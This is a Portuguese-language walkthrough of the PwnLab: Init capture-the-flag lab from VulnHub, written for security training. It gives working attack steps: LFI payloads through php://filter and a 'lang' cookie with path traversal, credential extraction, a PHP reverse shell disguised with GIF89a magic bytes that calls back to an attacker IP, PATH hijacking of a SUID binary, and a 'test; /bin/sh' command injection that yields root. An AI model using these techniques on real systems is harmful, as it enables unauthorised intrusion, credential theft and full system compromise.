

<!-- ===================================== -->
<!--  PwnLab: Init — Web Pentest Lab        -->
<!-- ===================================== -->

<p align="center">
  
  
</p>

<p align="center">
  
  
  
  
</p>

---

# 🧪 PwnLab: Init — Web Application Pentest

> Walkthrough técnico completo do laboratório **PwnLab: Init**, abordando **exploração de vulnerabilidades web**, **upload inseguro**, **Local File Inclusion (LFI)**, **reverse shell**, **pós-exploração** e **escalação de privilégios até root** em ambiente Linux.

---

### 📌 Metadados

- **Tipo:** Web Pentest Lab  
- **Plataforma:** VulnHub  
- **Sistema:** Linux (Debian-based)  
- **Categoria:** Web Exploitation · Privilege Escalation  

---

### 🏷️ Tags

`#PwnLab` `#WebPentest` `#LFI` `#FileUpload` `#ReverseShell`  
`#PHP` `#MySQL` `#LinuxPrivilegeEscalation`  
`#PathHijacking` `#SUID` `#CommandInjection`  
`#PostExploitation` `#VulnHub`

---
# Introdução

Este documento detalha o processo de exploração de vulnerabilidades na aplicação web **PwnLab**, um ambiente de laboratório projetado para prática de técnicas de pentest web. O objetivo é identificar e explorar falhas de segurança comuns em aplicações web, seguindo uma metodologia estruturada que inclui reconhecimento, mapeamento, exploração e pós-exploração.


A aplicação PwnLab apresenta múltiplas vulnerabilidades intencionais, incluindo ***Local File Inclusion*** (LFI), **injeção SQL**, **upload inseguro de arquivos** e **configurações inadequadas de banco de dados**. Este guia percorrerá cada etapa do processo, desde o reconhecimento inicial até o comprometimento completo do sistema.

---
# Metodologia Utilizada

A abordagem segue as fases padrão de testes de penetração em aplicações web:

1. **Reconhecimento e Enumeração** - Identificação de serviços e endpoints.
2. **Mapeamento de Vulnerabilidades** - Scan automatizado e manual.
3. **Exploração** - Utilização das vulnerabilidades identificadas.
4. **Escalação de Privilégios** - Acesso a dados sensíveis e sistemas.
5. **Pós-Exploração** - Manutenção de acesso e coleta de evidências.

---
# Fase 1: Reconhecimento e Enumeração

## 1.1 Identificando a Aplicação

Primeiro, é necessário mapear a rede para identificar o alvo. Começamos verificando a nossa interface de rede para conhecer o endereço IP local e sub-rede em que estamos inseridos.

```bash
ifconfig
```

**Explicação:** O comando `ifconfig` (ou `ip addr` em sistemas mais recentes) exibe informações das interfaces de rede, como endereço IP, máscara de sub-rede  e endereços MAC, permitindo identificar a rede à qual pertencemos. 

**Resultado a ser procurado:**

```bash
inet 192.168.100.76  netmask 255.255.255.0
```

Com base na informação acima, sabemos que nossa rede local é `192.168.100.0/24`.

Em seguida, realizamos uma varredura na rede para identificar dispositivos com  serviço HTTP (porta 80) aberto, já que o laboratório PWNLAB é uma aplicação web.

```bash
nmap -n -p 80 --open 192.168.100.0/24
```

**Explicação:**

- `-n`: Desativa a resolução DNS, agilizando a varredura.
- `-p 80`: Escaneia apenas a porta 80 (HTTP).
- `--open`: Exibe apenas portas com o status "open".
- `192.168.100.0/24`: Intervalo de IPs da rede a ser escaneado.

**Resultado:**

```bash
Nmap scan report for 192.168.100.77
Host is up (0.0032s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:D9:85:70 (Oracle VirtualBox virtual NIC)
```

Assim, identificamos que o alvo está no IP `192.168.100.77` com um serviço web, ativo, que corresponde à aplicação do laboratório PWNLAB.

## 1.2 Reconhecimento de Portas e Serviços

Antes de iniciar o ataque à aplicação web, é crucial identificar todos os serviços expostos no sistema alvo. Utilizamos o Nmap para um scan básico de portas.

```bash
# Scan básico das 1000 portas mais comuns
nmap -sV -sC 192.168.100.77

# Scan completo de todas as portas (recomendado para ambientes de teste)
nmap -p- 192.168.100.77

# Resultado identificado:
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
111/tcp  open  rpcbind    2-4 (RPC #100000)
3306/tcp open  mysql      MySQL 5.5.5-10.3.15-MariaDB-1
```

**Análise dos Resultados:**

- **Porta 80 (HTTP):** Servidor web Apache rodando aplicação PwnLab
- **Porta 3306 (MySQL):** Serviço de banco de dados exposto
- **Porta 111 (RPCBind):** Serviço de chamada de procedimento remoto

## 1.3 Enumeração de Diretórios Web

Antes de utilizar ferramentas automatizadas, realizamos enumeração manual básica:

```bash
# Teste de endpoints comuns
curl -I http://192.168.100.77/
curl -I http://192.168.100.77/robots.txt
curl -I http://192.168.100.77/sitemap.xml
```

---
# Fase 2: Mapeamento de Vulnerabilidades com Metasploit

## 2.1 WMAP

Antes de iniciar  o processo de mapeamento, é importante entender a escolha do WMAP como ferramenta. O WMAP é um scanner de vulnerabilidades web integrado ao Metasploit Framework que permite:

1. **Enumeração automatizada:** Varre diretórios, arquivos e parâmetros da aplicação web.
2. **Detecção de vulnerabilidades:** Identifica falhas comuns como XSS, SQL Injection, e configurações inseguras.
3. **Integração completa:** Os resultados são automaticamente importados para o banco de dados do Metasploit.
4. **Modularidade:** Permite a execução de testes conforme as necessidades da auditoria.

Para o laboratório PWNLAB, o WMAP será particularmente útil para:

- Mapear a estrutura da aplicação web.
- Identificar pontos de entrada potenciais para exploração.
- Preparar o terreno para ataques mais direcionais nas fases seguintes.

## 2.2 Configuração do WMAP no Metasploit

```bash
# Iniciar Metasploit Framework
sudo msfconsole

# Iniciar BD do Metasploit
msfdb init

# Carregar o módulo WMAP
load wmap

# Listar comandos disponíveis do WMAP
wmap_help

# Adicionar o site alvo
wmap_sites -a http://192.168.100.77

# Verificar sites adicionados
wmap_sites -l

# Adicionar página específica como target
wmap_targets -t http://192.168.100.77/?page=login

# Configurar opções de scan (opcional)
wmap_run -h

# Executar o scan de vulnerabilidades
wmap_run -e
```

```bash
[*] Testing target: http://192.168.100.77:80/
[*] Loading modules...
[+] Loaded 35 modules
[+] Launching 35 plugins...

# Resultados importantes identificados:
[+] Found http://192.168.100.77:80/config.php 200
[+] Found http://192.168.100.77:80/index.php 200  
[+] Found http://192.168.100.77:80/login.php 200
[+] Found http://192.168.100.77:80/upload.php 200
[+] Possible LFI vulnerability detected in parameter: page
```

**Análise Crítica dos Resultados:**

1. `config.php` **acessível:** Arquivo de configuração que normalmente não deveria ser acessível publicamente
2. **Parâmetro `page` vulnerável:** Indicação de possível *Local File Inclusion* (LFI)
3. `upload.php`: Ponto potencial para upload de arquivos maliciosos

## 2.3 Validação Manual de Vulnerabilidades LFI

Após a identificação automática pelo WMAP, é essencial realizar uma validação manual de vulnerabilidade LFI *(Local File Inclusion)*. A validação manual serve para:

1. **Confirmar a existência real da falha:** Eliminar falsos positivos.
2. **Explorar diferentes vetores de ataque:** Testar múltiplas técnicas de exploração.
3. **Mapear a extensão da vulnerabilidade:** Determinar quais arquivos podem ser acessados.
4. **Preparar a exploração avançada:** Coletar informações para etapas subsequentes.

### O que são PHP Wrappers?

**PHP Wrappers** são protocolos internos do PHP que permitem acessar diferentes tipos de fluxos de dados (streams) usando funções padrão de sistema de arquivos. No contexto de exploração LFI, eles são especialmente úteis para:

- **Bypass de restrições**: Contornar validações que bloqueiam inclusão de arquivos locais
- **Acesso a código fonte**: Ler arquivos PHP que normalmente seriam executados, não exibidos
- **Codificação de saída**: Manipular como o conteúdo é apresentado (ex: base64 para evitar execução)

O wrapper mais utilizado em explorações LFI é `php://filter`, que permite aplicar filtros aos dados durante a leitura/escrita.

### Testes de Exploração LFI

```bash
# Teste básico de LFI usando path traversal
curl "http://192.168.100.77/?page=../../../../etc/passwd"
```

**Propósito:** Testar a vulnerabilidade básica de inclusão de arquivos locais através de sequências `../`. O arquivo `/etc/passwd` é um alvo comum pois existe em quase todos os sistemas Unix/Linux e contém informações sobre usuários do sistema.

```bash
# Teste com wrappers PHP
curl "http://192.168.100.77/?page=php://filter/convert.base64-encode/resource=index"
```

**Propósito:** Utilizar wrappers PHP (`php://filter`) para:

- Bypass possíveis restrições de extensão de arquivos (como `.php`)
- Codificar o conteúdo em base64 para evitar interpretação direta pelo navegador
- Acessar o código fonte de arquivos PHP que normalmente seriam executados

```bash
# Exploração bem-sucedida para config.php
curl "http://192.168.100.77/?page=php://filter/convert.base64-encode/resource=config"
```

**Proósito:** Focar em um arquivo específico de alto valor - `config.php` que frequentemente contém:

- Credenciais de banco de dados
- Configurações sensíveis da aplicação
- Chaves de API ou segredos de configuração

**Resposta do Servidor:**

```text
PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+
```

## 2.4 Decodificação e Análise do Arquivo Config

```bash
# Decodificar conteúdo base64
echo "PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+" | base64 -d
```

**Conteúdo Decodificado:**

```php
<?php
$server    = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

**Riscos Identificados:**

1. Credenciais de banco de dados em arquivo acessível.
2. Usuário root com alta permissão.
3. Senha aparentemente forte mas agora comprometida.
4. Nome do banco de dados exposto.

---
# Fase 3: Exploração - Acesso ao Banco de Dados MySQL

## 3.1 Conexão com o MySQL

Com as credenciais obtidas, conectamos ao banco de dados:

```bash
# Conectar ao MySQL (desabilitar SSL se necessário)
mysql -u root -p -h 192.168.100.77 --ssl=DISABLED

# Alternativa com porta explícita
mysql -u root -p -h 192.168.100.77 -P 3306

# Durante a conexão, usar a senha encontrada: H4u%QJ_H99
```

>[!note] Nota de Segurança:
>Em ambientes de produção, conexões MySQL devem usar SSL/TLS. A flag `--ssl-mode=DISABLED` só deve ser usada em ambientes controlados de teste.


## 3.2 Enumeração do Banco de Dados

```mysql
-- Listar todos os bancos de dados
SHOW DATABASES;

-- Resultado esperado:
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+

-- Selecionar o banco de dados alvo
USE Users;

-- Listar tabelas do banco selecionado
SHOW TABLES;

-- Resultado esperado:
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+

-- Examinar estrutura da tabela users
DESCRIBE users;

-- Resultado esperado:
+-------+--------------+------+-----+---------+-------+
| Field | Type         | Null | Key | Default | Extra |
+-------+--------------+------+-----+---------+-------+
| user  | varchar(255) | YES  |     | NULL    |       |
| pass  | varchar(255) | YES  |     | NULL    |       |
+-------+--------------+------+-----+---------+-------+
```

## 3.3 Extração de Credenciais

```mysql
-- Consultar todos os registros da tabela users
SELECT * FROM users;

-- Resultado:
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
```

## 3.4 Decodificação das Senhas em Base64

```bash
# Decodificar senha do usuário kent
echo "Sld6WHVCSkpOeQ==" | base64 -d
# Resultado: JWzXuBJJNy

# Decodificar senha do usuário mike  
echo "U0lmZHNURW42SQ==" | base64 -d
# Resultado: SIfdsTEn6I

# Decodificar senha do usuário kane
echo "aVN2NVltMkdSbw==" | base64 -d
# Resultado: iSv5Ym2GRo
```

## 3.5 Análise de Segurança das Credenciais


| **Usuário** | **Senha (Base64)** | **Senha (Decodificada)** | **Complexidade**          |
| ----------- | ------------------ | ------------------------ | ------------------------- |
| kent        | Sld6WHVCSkpOeQ==   | JWzXuBJJNy               | Média (10 chars, mistura) |
| mike        | U0lmZHNURW42SQ==   | SIfdsTEn6I               | Média (10 chars, mistura) |
| kane        | aVN2NVltMkdSbw==   | iSv5Ym2GRo               | Média (10 chars, mistura) |

**Problemas Identificados:**

1. Senhas armazenadas em Base64 (não é hashing)
2. Mesmo formato para todos os usuários
3. Nenhum salting aplicado
4. Comprimento consistente de 10 caracteres

---
# Fase 4: Exploração de Upload de Arquivos e Reveres Shell

## 4.1 Contexto e Objetivo

Após obter acesso à aplicação através das credenciais dos usuários (kent, mike ou kane) identificamos a funcionalidade de upload de arquivos em `/upload.php`. Nosso objetivo é explorar esta funcionalidade para obter uma shell reversa, permitindo execução remota de comandos no servidor.

## 4.2 Análise de Funcionalidades de Upload

1. Login na aplicação
	- Acesse `http://192.168.100.77/login.php`
	- Utilize as credenciais obtidas anteriormente (ex: kent:JWzXuBJJNy)
	- Após login bem-sucedido, navegue até a página de upload

2.  **Identificação do formulário:**
    - Localize o formulário de upload na interface
    - Observe os campos disponíveis
    - Verifique mensagens de ajuda ou instruções


3. **Análise visual das restrições:**
    - Verifique se há indicação de tipos de arquivo permitidos
    - Observe mensagens de erro ao tentar uploads inválidos
    - Analise se há validação em tempo real (JavaScript)

## 4.2 Teste Manual de Upload

Execute os seguintes testes diretamente na interface web:

**Teste 1: Upload de arquivo de imagem válido**

- Selecione uma imagem real (JPG, PNG, GIF)
- Faça upload e observe:
    
    - Mensagem de sucesso/erro
    - Local onde a imagem é exibida
    - URL de acesso ao arquivo


**Teste 2: Tentativa de upload de arquivo PHP**

- Crie um arquivo `test.php` com conteúdo simples:

```php
<?php echo "Test PHP"; ?>
```

- Tente fazer upload através da interface
- **Resultado Esperado:** A aplicação deve rejeitar o upload


**Teste 4: Verificação de uploads anteriores**

- Explore a interface para ver se há galeria de imagens
- Verifique URLs de imagens já upadas em `/upload`
- Analise padrões de nomenclatura


---
# Fase 5: Preparação do Arquivo de Reverse Shell

## 5.1 Localização do Template de Reverse Shell

O Kali Linux inclui diversos templates de webshells. Vamos utilizar:

```bash
# Localizar o arquivo php-reverse-shell.php
find /usr/share -name "*reverse*shell*.php" 2>/dev/null

# Caminho específico no Kali
ls -la /usr/share/webshells/php/

# Copiar o template para seu diretório de trabalho
cp /usr/share/webshells/php/php-reverse-shell.php ./reverse-shell.php
```

## 5.2 Configuração do Arquivo

Abra o arquivo `reverse-shell.php` em um editor de texto:

```bash
# Visualizar conteúdo inicial
head -30 /usr/share/webshells/php/php-reverse-shell.php
```

O arquivo contém:

```bash
# /*
# Pentest Monkey Reverse Shell PHP
# */
# set_time_limit (0);
# $VERSION = "1.0";
# $ip = '127.0.0.1';  // CHANGE THIS
# $port = 1234;       // CHANGE THIS
```

Edite as seguintes variáveis:

1. **Altere o IP (`$ip`)**: Substitua `127.0.0.1` pelo **seu endereço IP atacante**:

```php
$ip = '192.168.100.50';  // SEU IP
```

2. **Altere a porta (`$port`)**: Use uma porta disponível (ex: 1234, 4444, 5555)

```php
$port = 4444;
```

3. **(Opcional) Verificar método de conexão**: O script usa `fsockopen()`. Verifique se suporta outros métodos se necessário.

## 5.3 Verificação do Arquivo Configurado

```bash
# Verificar as alterações
grep -n "ip\|port" reverse-shell.php

# Resultado esperado:
# $ip = '192.168.100.50';
# $port = 4444;
```

---
# Fase 6: Bypass de Validação com Magic Bytes

## 6.1 O que são Magic Bytes?

Magic Bytes (assinaturas de arquivo) são sequências específicas nos primeiros bytes de um arquivo que identificam seu formato:

**Exemplos comuns:**

- **GIF**: `GIF89a` (47 49 46 38 39 61 em hexadecimal)
- **JPEG**: `ÿØÿà` (FF D8 FF E0 em hexadecimal)
- **PNG**: `‰PNG` (89 50 4E 47 em hexadecimal)
- **PDF**: `%PDF` (25 50 44 46 em hexadecimal)


## 6.2 Estratégia de Bypass

Como a aplicação só aceita imagens, mas valida apenas a extensão e/ou magic bytes, podemos:

1. **Adicionar magic bytes de imagem ao início do arquivo PHP**
2. **Manter a extensão .gif para passar na validação**
3. **O código PHP será executado pois o servidor interpreta pelo conteúdo, não pela extensão**

## 6.3 Criação do Arquivo Híbrido GIF/PHP

Para contornar as restrições de upload da aplicação web que faz a validação somente de arquivos que sejam imagens, criamos um arquivo híbrido que combina características de imagem GIF com código PHP.

### 1. Renomeação do Arquivo

Primeiro, renomeamos nosso shell PHP para uma extensão `.gif`:

```bash
mv reverse-shell.php shell.gif
```

**Propósito:** Enganar a validação superficial da aplicação que verifica apenas extensão do arquivo.

### 2. Verificação da Assinatura do Arquivo

Ao verificar o tipo real do arquivo, confirmamos que apenas renomeá-lo não altera sua estrutura interna:

```bash
file shell.gif
```

**Resultado:**

```text
shell.gif: PHP script, ASCII text
```

**Explicação:** O comando `file` analisa a assinatura mágica (magic bytes) do arquivo, não apenas sua extensão. Mesmo renomeado para `.gif`, o arquivo ainda é reconhecido como script PHP porque começa com `<?php`.

### 3. Adição dos Magic Bytes GIF

Para criar um arquivo verdadeiramente híbrido, precisamos adicionar os magic bytes específicos do formato GIF no início do arquivo. Consultando a [Lista de Assinaturas de Arquivo](https://en.wikipedia.org/wiki/List_of_file_signatures), identificamos que arquivos GIF começam com:

- **GIF87a** (versão original de 1987)
- **GIF89a** (versão atualizada de 1989, com mais recursos)

Adicionamos os magic bytes editando o arquivo:

```bash
nano shell.gif
```

Na primeira linha, **antes** do `<?php`, inserimos o cabeçalho GIF:

```text
GIF89a
<?php
// código do reverse shell continua...
```

**Importante:** O cabeçalho deve ser exatamente `GIF89a` (6 bytes) e deve estar na primeira linha do arquivo.

### 4. Validação Final

Após a modificação, verificamos novamente:

```bash
file shell.gif
```

**Resultado:**

```text
shell.gif: GIF image data, version 89a, 16188 x 26736
```

**Explicação:** Agora o comando `file` detecta corretamente os magic bytes `GIF89a` e identifica o arquivo como imagem GIF. A aplicação web aceitará o upload, mas quando o arquivo for acessado via web, o servidor PHP ainda executará o código contido nele, ignorando o cabeçalho GIF (que é tratado como texto normal pelo PHP).

### Por que esta técnica funciona?

1. **Validação do lado do servidor**: A aplicação verifica apenas os primeiros bytes do arquivo    
2. **Interpretação do PHP**: O mecanismo PHP processa o arquivo ignorando qualquer conteúdo antes de `<?php`
3. **Características do GIF**: O formato GIF permite comentários e dados extras sem corromper a imagem

Agora temos um arquivo que passa na validação de upload mas ainda mantém sua funcionalidade como reverse shell PHP.

## 6.4 Upload e Execução do Arquivo Híbrido

### Verificação do Upload Bem-Sucedido

Após fazer o upload do arquivo `shell.gif`, podemos verificar que ele foi aceito pelo sistema através da URL do diretório de uploads:

```text
http://192.168.100.77/upload/
```


O arquivo aparece na lista com um nome hash (no nosso caso: `f3035846cc279a1aff73b7c2c25367b9.gif`), confirmando que a validação de upload foi contornada com sucesso.

### Problema de Execução

Ao tentar acessar diretamente o arquivo GIF:

```text
http://192.168.100.77/upload/f3035846cc279a1aff73b7c2c25367b9.gif
```

Observamos que o navegador apenas exibe uma imagem corrompida ou inicia o download do arquivo, mas **o código PHP não é executado**. Isso ocorre porque:

1. **Configuração do servidor web:** Por padrão, arquivos com extensão `.gif` são tratados como conteúdo estático.
2. **Falta de interpretação PHP:** O servidor não processa arquivos `.gif` através do interpretador PHP.

---
# Fase 7: Exploração e Pós-Exploração

## 7.1 Explorando a Vulnerabilidade LFI Através do Cookie

### Contexto da Vulnerabilidade

No laboratório PWNLAB, existe uma vulnerabilidade de ***File Inclusion* via Cookie**. A aplicação utiliza um cookie chamado `lang` para carregar arquivos de idioma, e este parâmetro é vulnerável a *path traversal* sem validação adequada.

### Captura da Requisição com Burp Suite

1. **Configurar o Burp Suite**:    
    - Iniciar o Burp Suite
    - Ativar o intercept no Burp Suite

2. **Capturar uma requisição à aplicação**:
    - Acessar `http://192.168.100.77/`
    - Burp Suite interceptará a requisição HTTP

## 7.2 Manipulação do Cookie para Execução do GIF

Requisição Original Interceptada:

```http
GET / HTTP/1.1
Host: 192.168.100.77
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=gstsgi6or0mhd6bub7fjha0fh1
Connection: keep-alive
```

Modificação do parâmetro `Cookie` para Path Traversal:

```
Cookie: lang=../upload/f3035846cc279a1aff73b7c2c25367b9.gif
```

**Explicação:**

- `lang=`: Nome do cookie que a aplicação usa para carregar arquivos de inclusão
- `../`: Path traversal para subir um nível no diretório
- `upload/`: Diretório onde nosso arquivo GIF foi armazenado
- `f3035846cc279a1aff73b7c2c25367b9.gif`: Nome hash do nosso arquivo GIF

### Como esta exploração funciona?

**Mecanismo da Vulnerabilidade:**

1. A aplicação PwnLab tem um sistema de internacionalização (i18n)
2. Ela carrega arquivos de idioma baseado no valor do cookie `lang`
3. O código provavelmente se parece com:

```php
<?php
$language = $_COOKIE['lang'];
include($language . '.php'); // VULNERÁVEL!
?>
```

1. Ao modificar o cookie para `../upload/f3035846cc279a1aff73b7c2c25367b9.gif`, incluímos nosso arquivo.

**Por que o PHP é executado:**

1. O servidor inclui o arquivo via `include()` ou `require()`
2. Mesmo sendo `.gif`, quando incluído via PHP, o interpretador processa o conteúdo
3. Os magic bytes `GIF89a` são ignorados (PHP começa a interpretar após `<?php`)
4. Nosso código reverse shell é executado com as permissões do servidor web

## 7.3 Estabelecendo o Reverse Shell

Antes de dar o `Forward` na requisição modificada dentro do Burp Suite, é necessário primeiramente configurar um listener na nossa máquina de ataque usando o Netcat:

```bash
nc -lvnp 4444 # Porta previamente configurada no arquivo shell.gif
```

**Explicação dos parâmetros:**

- `-l`: Modo listener (aguarda conexões)
- `-v`: Verbose (exibe informações detalhadas)
- `-n`: Não resolve DNS (apenas endereços IP)
- `-p 4444`: Porta para escutar (ajustar conforme configurado no shell)    

#### Executando o Shell via Manipulação de Cookie

Com o listener ativo, existem duas formas de acionar o shell:

**Método 1: Via Console do Navegador**

```js
// No console do navegador (F12)
document.cookie = "lang=../upload/f3035846cc279a1aff73b7c2c25367b9.gif";
location.reload(); // Recarregar a página para aplicar o cookie
```

**Método 2: Via curl (linha de comando)**

```bash
# Enviar requisição com cookie manipulado
curl "http://192.168.100.77/" \
  -H "Cookie: lang=../upload/f3035846cc279a1aff73b7c2c25367b9.gif"
```

**Método 3: Via Burp Suite Repeater**

1. Enviar a requisição interceptada para o Repeater (Ctrl+R)
2. Modificar o cabeçalho Cookie conforme mostrado
3. Clicar em "Send"

**O que acontece:**

1. A aplicação recebe o cookie com path traversal
2. Inclui nosso arquivo GIF via PHP
3. O código PHP dentro do GIF é executado
4. O shell tenta conectar de volta à nossa máquina na porta 4444
5. O netcat recebe a conexão e fornece um shell interativo

## 7.4 Pós-Exploração no Servidor PWNLAB

### 1. Verificação do Ambiente

Uma vez conectado via reverse shell:

```bash
# Verificar usuário atual (provavelmente www-data)
whoami

# Verificar sistema operacional
uname -a
cat /etc/os-release

# Verificar privilégios atuais
sudo -l
id
```

### 2. Exploração do Sistema de Arquivos

```bash
# Navegar para o diretório web
cd /var/www/html
ls -la

# Examinar o código fonte da aplicação
cat index.php
cat config.php 2>/dev/null

# Procurar por credenciais
grep -r "password\|passwd\|secret\|key" . 2>/dev/null
```

### 3. Escalação de Privilégios no PWNLAB

O PWNLAB geralmente tem múltiplos níves de exploração:

```bash
# Buscar binários SUID
find / -type f -perm -4000 -ls 2>/dev/null

# Verificar permissões de arquivos sensíveis
ls -la /etc/passwd
ls -la /etc/shadow

# Procurar por scripts de administração
find / -name "*.sh" -type f 2>/dev/null | head -20
```

### 4. Buscando as Flags/Passwords

Cada usuário no Pwnlab geralmente tem uma flag:

```bash
# Listar usuários do sistema
cat /etc/passwd | grep -v "nologin\|false"

# Verificar diretórios home
ls -la /home/
ls -la /root/ 2>/dev/null

# Buscar por arquivos flag
find / -name "*flag*" -type f 2>/dev/null
find / -name "*.txt" -type f -exec grep -l "flag\|password" {} \; 2>/dev/null
```

---
# Solução Final

## Estabelecendo um Shell mais estável

Após estabelecer a conexão com o Reverse Shell, notamos que o terminal é limitado (sem histórico, auto-complete, etc.). Como o Python está disponível no servidor, podemos usar o seguinte comando para obter um shell TTY mais funcional:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

**Explicação:**

- `import pty`: Importa o módulo Python para pseudo-terminais
- `pty.spawn("/bin/bash")`: Cria um novo processo bash com um terminal completo
- Isso proporciona um shell interativo com todas as funcionalidades padrão

## Enumerando Usuários do Sistema

Com o shell melhorado, podemos identificar os usuários presentes no sistema:

```bash
cat /etc/passwd | grep -E "(bash|sh)$"
```

**Resultado:**

```text
john:x:1000:1000:,,,:/home/john:/bin/bash
kent:x:1001:1001:,,,:/home/kent:/bin/bash
mike:x:1002:1002:,,,:/home/mike:/bin/bash
kane:x:1003:1003:,,,:/home/kane:/bin/bash
```

## Testando Credenciais Encontradas

Utilizando as senhas encontradas anteriormente no arquivo `config.php`:

```bash
su kane
Password: iSv5Ym2GRo

kane@pwnlab:~$ 
```

**Sucesso!** Conseguimos acesso ao usuário `kane`. Isso revela que as credenciais do banco de dados são reutilizadas como senhas de sistema.

## Análise do Diretório Home do Kane

Dentro do diretório do usuário Kane, encontramos um arquivo peculiar:

```bash
ls -la /home/kane/
```

Resultado:

```text
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 msgmike
```

### O Que é o Arquivo `msgmike`?

**Características importantes:**

- **Bit SUID ativado** (`-rwsr-sr-x`): O `s` no campo de permissões indica que o arquivo será executado com os privilégios do proprietário (mike), não do usuário que o executa (kane)
- **Propriedade de mike**: Embora esteja no diretório de kane, o arquivo pertence ao usuário mike
- **Data antiga**: Sugere que faz parte do laboratório/desafio

## Testando o Executável

```bash
./msgmike
```

**Resultado:**

```text
cat: /home/mike/msg.txt: Np such file or directory
```

**Análise da Vulnerabilidade:**

1. O programa tenta usar `cat` para ler `/home/mike/msg.txt`
2. O caminho do `cat` não está absoluto (não é `/bin/cat`)
3. Como o arquivo tem bit SUID, ele executa com privilégios de mike
4. Podemos explorar essa vulnerabilidade de **PATH hijacking**

## Exploração: PATH Hijacking Attack

### Passo 1: Analisar o PATH Atual

```bash
echo $PATH
```

**Resultado esperado:** `/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games`

### Passo 2: Criar um Arquivo Malicioso

```bash
# Criar um arquivo chamado "cat" no diretório atual
echo '/bin/bash' > cat
```

**Explicação:** Quando o programa `msgmike` chama `cat`, o sistema procurará por um executável chamado `cat` nos diretórios listados no PATH.

### Passo 3: Dar permissões de Execução

```bash
chmod 777 cat
```

Isso torna o arquivo executável por qualquer usuário.

### Passo 4: Manipular o PATH

```bash
export PATH=./:$PATH
```

**Explicação:** Adiciona o diretório atual (`.`) ao início do PATH. Agora, quando o sistema procura por `cat`, encontrará nosso arquivo malicioso primeiro.

### Passo 5: Executar o Programa Vulnerável

```bash
./msgmike
```

**O que acontece:**

1. `msgmike` tenta executar `cat /home/mike/msg.txt` 
2. O sistema procura `cat` no PATH
3. Encontra nosso arquivo `./cat` primeiro (devido ao PATH manipulado)
4. Executa `/bin/bash` com os privilégios de mike (devido ao bit SUID)
5. **Resultado:** Obtemos um shell como usuário mike!

## Escalonamento para Root

### Identificando Novos Arquivos

Como usuário mike, verificamos seu diretório home:

```bash
cd /home/mike
ls -la
```

**Resultado:**

```text
-rwsr-sr-x 1 root root 5160 Mar 17  2016 msg2root
```

### Análise do `msg2root`

**Características:**

- **Bit SUID root**: Executa com privilégios de root (`-rwsr-sr-x` e propriedade `root`)
- **Provavelmente vulnerável**: Programas SUID que aceitam entrada do usuário são alvos comuns

### Testando o Executável

```bash
./msg2root
```

O programa solicita uma mensagem para ser enviada ao root.

## Exploração: Command Injection

Dado que o programa provavelmente usa funções do sistema sem sanitização adequada, testamos injeção de comandos:

```bash
./msg2root
```

Entrada fornecida:

```bash
test; /bin/sh
```

- `test;`: Mensagem inicial para o programa
- `;`: Caractere que termina um comando no shell
- `/bin/sh`: Inicia um novo shell
- Como o programa executa com privilégios SUID root, o shell resultante terá privilégios de root

### Verificação de Privilégios

```bash
# Após a execução bem-sucedida do msg2root
id
```

**Resultado esperado:** `uid=0(root) gid=0(root) groups=0(root),1002(mike)`

### Busca pela Flag Final

```bash
cd /root
ls -la
cat flag.txt
```

**Resultado:**



---
# Conclusão do Laboratório PwnLab

Este laboratório demonstrou um fluxo completo de ataque web sofisticado:

## Resumo das Técnicas Utilizadas:

1. **Reconhecimento**: Escaneamento de rede e identificação de serviços    
2. **Enumeração**: Descoberta de múltiplas vulnerabilidades (LFI via cookie)
3. **Upload Malicioso**: Bypass de validação via arquivo híbrido GIF/PHP
4. **Exploração Avançada**: Combinação de vulnerabilidades (upload + LFI via cookie)
5. **Pós-Exploração**: Shell reverso, escalação de privilégios e busca por flags

## Resumo das Vulnerabilidades Exploradas:

1. **Credential Reuse**: Senhas do banco de dados reutilizadas para autenticação de sistema
2. **SUID Misconfiguration**: Arquivos com bit SUID mal configurados
3. **Path Hijacking**: Uso de comandos do sistema sem caminhos absolutos
4. **Command Injection**: Falta de sanitização de entrada do usuário

